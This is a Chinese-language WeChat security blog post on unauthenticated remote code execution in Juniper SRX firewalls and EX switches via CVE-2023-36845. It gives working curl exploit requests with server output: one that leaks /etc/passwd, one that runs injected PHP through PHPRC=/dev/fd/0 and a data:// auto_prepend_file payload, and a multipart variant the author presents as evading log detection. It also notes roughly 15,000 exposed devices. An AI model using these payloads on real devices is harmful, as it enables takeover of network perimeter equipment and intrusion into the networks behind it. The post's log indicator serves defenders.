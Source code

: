 #  Juniper防火墙RCE

原创 安全路人A [ 军机故阁 ](javascript:void\(0\);)

**军机故阁** ![]()

微信号 gh_e57baf46bdf5

功能介绍 最新的安全情报与技术

____

___发表于_

收录于合集

祝大家国庆快乐，这个近期热点漏洞，导致RCE源于两个中危漏洞组合，测试发现了更多情况。

原watchTowr博文地址如下：https://labs.watchtowr.com/cve-2023-36844-and-friends-rce-in-
juniper-firewalls/，两个中危漏洞为CVE-2023-36846，被描述为关键功能的身份验证缺失漏洞，而CVE-2023-36845是一个
PHP 环境变量操纵漏洞。影响 Juniper SRX防火墙和EX交换机。Juniper将这两个漏洞评为中危问题（5.3分），原博文中组合利用两个漏洞可以

但我测试发现仅利用CVE-2023-36845。即可实现远程、未经身份验证的代码执行。

原文攻击链第一步使用CVE-2023-36846调用J-Web界面中的do_fileUpload函数。这将导致将任意文件写入/var/tmp，poc如下：

  * 

    
    
    $ curl http://10.12.72.1/webauth_operation.php -d 'rs=do_upload&rsargs[]=[{"fileName": "test.php", "fileData": ",PD9waHAgDQpwaHBpbmZvKCk7DQo/Pg==", "csize": 22}]

 ** **但测试下来有一种根本不需要文件上传的新RCE路径和信息泄露思路。**** **信息泄露漏洞思路和POC**

watchTowr团队的攻击通过上传两个文件，将PHPRC环境变量设置为其中一个文件，然后使用php.ini
auto_prepend_file设置强制每个php页面加载第二个文件来实现代码执行。这是一个非常好的攻击思路，但如果你不能上传文件的环境呢，还有一条路，使用stdin。

Juniper防火墙使用Appweb
web服务器。当Appweb调用CGI脚本时，它会传递各种环境变量和参数，以便脚本可以访问用户的HTTP请求。HTTP请求的主体通过stdin传递。受影响的防火墙运行FreeBSD，每个FreeBSD进程都可以通过打开/dev/fd/0访问其stdin。通过发送HTTP请求，我们可以向系统引入一个“文件”/dev/fd/0。

使用这个技巧，可以将PHPRC环境变量设置为/dev/fd/0，并在HTTP请求中包含所需的php.ini。下面的curl请求演示了这种攻击，可以为每个响应包前触发显示/etc/passwd。

POC：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    $ curl "http://10.12.72.1/?PHPRC=/dev/fd/0" --data-binary 'auto_prepend_file="/etc/passwd"'root:*:0:0:Charlie &:/root:/bin/cshdaemon:*:1:1:Owner of many system processes:/root:/sbin/nologinoperator:*:2:5:System &:/:/sbin/nologinbin:*:3:7:Binaries Commands and Source:/:/sbin/nologintty:*:4:65533:Tty Sandbox:/:/sbin/nologinkmem:*:5:65533:KMem Sandbox:/:/sbin/nologingames:*:7:13:Games pseudo-user:/usr/games:/sbin/nologinman:*:9:9:Mister Man Pages:/usr/share/man:/sbin/nologinsshd:*:22:22:Secure Shell Daemon:/var/empty:/sbin/nologinext:*:39:39:External applications:/:/sbin/nologinbind:*:53:53:Bind Sandbox:/:/sbin/nologinuucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/sbin/nologinnobody:*:65534:65534:Unprivileged user:/nonexistent:/sbin/nologin<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN"><html>  <head>    <meta http-equiv="Content-Type" content="text/html"/>    <link rel="stylesheet" href="/stylesheet/juniper.css" type="text/css"/>    <title>Log In - Juniper Web Device Manager</title>    <link rel="shortcut icon" href='images/favicon.ico' type="image/x-icon"/>  
      </head>  
    

这是一次巧妙的信息泄漏，但它不是RCE，还有另一种信息泄露手法，也类似。

原博文中为了实现代码执行，watchTowr 使用了两个文件。一种用于php.ini，另一种用于任意 PHP。我测试发现了新方法。

 **RCE的思路和POC**

##  PHP 的一个功能，auto_prepend_file，很简单。使用该函数添加提供的文件require。来自php.net的描述：

> auto_prepend_file string Specifies the name of a file that is automatically
> parsed before the main file. The file is included as if it was called with
> the require function, so include_path is used。

对于我们的攻击要求，另一个PHP功能与auto_prepend_file很好地配合。该功能为allow_url_include：

> allow_url_include bool 此选项允许使用具有以下函数的 URL 感知 fopen
> 包装器：include、include_once、require、require_once。

通过启用allow_url_include，我们可以使用任何带有auto_prepend_file的协议包装器。显而易见的选择是 data://
以内联方式提供“第二个文件”形式。以下是执行<?phpinfo();?> 的POC：

    
          *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 
    
    
    
    $ curl "http://10.12.72.1/?PHPRC=/dev/fd/0" --data-binary $'allow_url_include=1\nauto_prepend_file="data://text/plain;base64,PD8KICAgcGhwaW5mbygpOwo/Pg=="'<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "DTD/xhtml1-transitional.dtd"><html><head><style type="text/css">body {background-color: #ffffff; color: #000000;}body, td, th, h1, h2 {font-family: sans-serif;}pre {margin: 0px; font-family: monospace;}a:link {color: #000099; text-decoration: none; background-color: #ffffff;}a:hover {text-decoration: underline;}table {border-collapse: collapse;}.center {text-align: center;}.center table { margin-left: auto; margin-right: auto; text-align: left;}.center th { text-align: center !important; }td, th { border: 1px solid #000000; font-size: 75%; vertical-align: baseline;}h1 {font-size: 150%;}h2 {font-size: 125%;}.p {text-align: left;}.e {background-color: #ccccff; font-weight: bold; color: #000000;}.h {background-color: #9999cc; font-weight: bold; color: #000000;}.v {background-color: #cccccc; color: #000000;}.vr {background-color: #cccccc; text-align: right; color: #000000;}img {float: right; border: 0px;}hr {width: 600px; background-color: #cccccc; border: 0px; height: 1px; color: #000000;}</style><title>phpinfo()</title><meta name="ROBOTS" content="NOINDEX,NOFOLLOW,NOARCHIVE" /></head><body><div class="center">

`

就像这样，通过仅使用CVE-2023-36845，我们实现了未经验证的远程代码执行，而无需在磁盘上实际放置文件。利用一个漏洞建立了一个反向shell。

另在shodan上简单搜索了下，大约 15,000 个具有面向互联网的 Web 界面的 Juniper
设备，而且大量是未打补丁的状态，不过也有相当多是蜜罐：

![]()

 **还有个小技巧：**

防火墙是 APT 常见的目标，因为它们有助于桥接受保护的网络，并可以充当 C2
基础设施的有用主机。如果拥有未打补丁的Juniper网络防火墙的站点，都应该检查是否有被入侵的痕迹。httpd.log会包含以下payload部分：

> httpd:2:POST /?PHPRC=/dev/fd/0 HTTP/1.1

但是，攻击者可以绕过在 HTTP
标头中包含变量，只是为了方便测试和展示才这么写的poc，真实情况中，可以使用多部分表单数据，当攻击者使用这种形式的攻击时，httpd.log（以及据我们所知的所有其他日志）基本上是无感知的。

    
          *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 
    
    
    
    $ curl "http://10.12.72.1/" -F $'auto_prepend_file="/etc/passwd\n"' -F 'PHPRC=/dev/fd/0'root:*:0:0:Charlie &:/root:/bin/cshdaemon:*:1:1:Owner of many system processes:/root:/sbin/nologinoperator:*:2:5:System &:/:/sbin/nologinbin:*:3:7:Binaries Commands and Source:/:/sbin/nologintty:*:4:65533:Tty Sandbox:/:/sbin/nologinkmem:*:5:65533:KMem Sandbox:/:/sbin/nologingames:*:7:13:Games pseudo-user:/usr/games:/sbin/nologinman:*:9:9:Mister Man Pages:/usr/share/man:/sbin/nologinsshd:*:22:22:Secure Shell Daemon:/var/empty:/sbin/nologinext:*:39:39:External applications:/:/sbin/nologinbind:*:53:53:Bind Sandbox:/:/sbin/nologinuucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/sbin/nologinnobody:*:65534:65534:Unprivileged user:/nonexistent:/sbin/nologin<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN"><html>  <head>    <meta http-equiv="Content-Type" content="text/html"/>    <link rel="stylesheet" href="/stylesheet/juniper.css" type="text/css"/>    <title>Log In - Juniper Web Device Manager</title>    <link rel="shortcut icon" href='images/favicon.ico' type="image/x-icon"/>  </head>

`

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

